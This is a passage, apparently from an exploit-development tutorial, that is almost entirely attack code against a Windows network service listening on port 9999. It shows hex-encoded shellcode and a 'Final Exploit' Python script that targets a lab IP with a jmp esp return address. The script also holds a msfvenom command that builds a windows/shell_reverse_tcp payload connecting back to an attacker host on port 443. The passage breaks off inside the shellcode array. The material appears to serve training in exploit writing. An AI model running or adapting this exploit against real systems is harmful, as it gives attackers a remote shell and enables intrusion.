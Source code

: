 ```terminal_session
"\x34\x51\x44\x30\x50\x73\x58\x55\x79\x6b\x30\x32\x4b\x73\x30"
"\x79\x6f\x39\x45\x50\x50\x76\x30\x76\x30\x70\x50\x47\x30\x36"
"\x30\x63\x70\x50\x50\x51\x78\x7a\x4a\x36\x6f\x79\x4f\x4b\x50"
"\x4b\x4f\x38\x55\x6f\x67\x50\x6a\x53\x35\x72\x48\x6f\x30\x6d"
"\x78\x66\x61\x68\x4d\x52\x48\x64\x42\x47\x70\x47\x71\x4f\x4b"
"\x4c\x49\x48\x66\x31\x7a\x42\x30\x61\x46\x36\x37\x61\x78\x4e"
"\x79\x4e\x45\x50\x74\x63\x51\x4b\x4f\x7a\x75\x6c\x45\x39\x50"
"\x50\x74\x56\x6c\x69\x6f\x32\x6e\x53\x38\x51\x65\x68\x6c\x35"
"\x38\x4a\x50\x6d\x65\x49\x32\x31\x46\x79\x6f\x6a\x75\x65\x38"
"\x45\x33\x62\x4d\x35\x34\x43\x30\x6c\x49\x6a\x43\x71\x47\x63"
"\x67\x73\x67\x56\x51\x4b\x46\x43\x5a\x32\x32\x51\x49\x43\x66"
"\x68\x62\x6b\x4d\x53\x56\x6a\x67\x71\x54\x74\x64\x45\x6c\x76"
"\x61\x77\x71\x4e\x6d\x42\x64\x44\x64\x46\x70\x4b\x76\x63\x30"
"\x51\x54\x42\x74\x50\x50\x73\x66\x46\x36\x72\x76\x61\x56\x72"
"\x76\x52\x6e\x62\x76\x71\x46\x30\x53\x51\x46\x62\x48\x52\x59"
"\x58\x4c\x77\x4f\x4d\x56\x69\x6f\x4a\x75\x6d\x59\x4b\x50\x62"
"\x6e\x43\x66\x50\x46\x39\x6f\x46\x50\x63\x58\x55\x58\x6b\x37"
"\x45\x4d\x63\x50\x4b\x4f\x4e\x35\x6f\x4b\x4b\x50\x47\x6d\x35"
"\x7a\x34\x4a\x62\x48\x6c\x66\x4c\x55\x6d\x6d\x6d\x4d\x4b\x4f"
"\x6e\x35\x35\x6c\x76\x66\x33\x4c\x46\x6a\x4b\x30\x49\x6b\x69"
"\x70\x62\x55\x76\x65\x4d\x6b\x53\x77\x34\x53\x43\x42\x42\x4f"
"\x33\x5a\x45\x50\x76\x33\x4b\x4f\x4e\x35\x41\x41";
```

## Final Exploit

Our exploit code now looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

#jmp esp: 62501203

host = "192.168.1.201"
port = 9999

# msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.1.205 LPORT=443 -f c -b '\x00' -e x86/alpha_mixed BufferRegister=ESP
# 702 bytes
shellcode = ("\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
"\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b"
"\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
"\x50\x38\x41\x42\x75\x4a\x49\x49\x6c\x6a\x48\x6d\x52\x33\x30"
"\x55\x50\x77\x70\x73\x50\x6b\x39\x5a\x45\x75\x61\x69\x50\x63"
"\x54\x4e\x6b\x42\x70\x56\x50\x4e\x6b\x70\x52\x64\x4c\x4e\x6b"
"\x72\x72\x54\x54\x4c\x4b\x34\x32\x44\x68\x54\x4f\x6f\x47\x32"
"\x6a\x36\x46\x36\x51\x39\x6f\x6e\x4c\x77\x4c\x55\x31\x53\x4c"
"\x47\x72\x76\x4c\x31\x30\x39\x51\x38\x4f\x76\x6d\x36\x61\x48"
"\x47\x79\x72\x6b\x42\x42\x72\x66\x37\x6e\x6b\x72\x72\x34\x50"
"\x4c\x4b\x33\x7a\x37\x4c\x6e\x6b\x62\x6c\x57\x61\x63\x48\x4b"
"\x53\x63\x78\x53\x31\x5a\x71\x46\x31\x6e\x6b\x36\x39\x55\x70"
"\x73\x31\x4a\x73\x4e\x6b\x30\x49\x52\x38\x58\x63\x66\x5a\x30"
"\x49\x6c\x4b\x36\x54\x4c\x4b\x45\x51\x49\x46\x36\x51\x39\x6f"
"\x4e\x4c\x6f\x31\x68\x4f\x74\x4d\x46\x61\x38\x47\x74\x78\x4b"
"\x50\x52\x55\x4c\x36\x73\x33\x61\x6d\x49\x68\x77\x4b\x73\x4d"
"\x77\x54\x70\x75\x5a\x44\x73\x68\x4e\x6b\x72\x78\x31\x34\x73"
"\x31\x79\x43\x72\x46\x6e\x6b\x54\x4c\x62\x6b\x4c\x4b\x33\x68"
"\x35\x4c\x73\x31\x68\x53\x6c\x4b\x43\x34\x6e\x6b\x55\x51\x68"
"\x50\x6b\x39\x77\x34\x74\x64\x36\x44\x61\x4b\x73\x6b\x33\x51"
"\x71\x49\x32\x7a\x52\x71\x69\x6f\x49\x70\x31\x4f\x63\x6f\x43"
```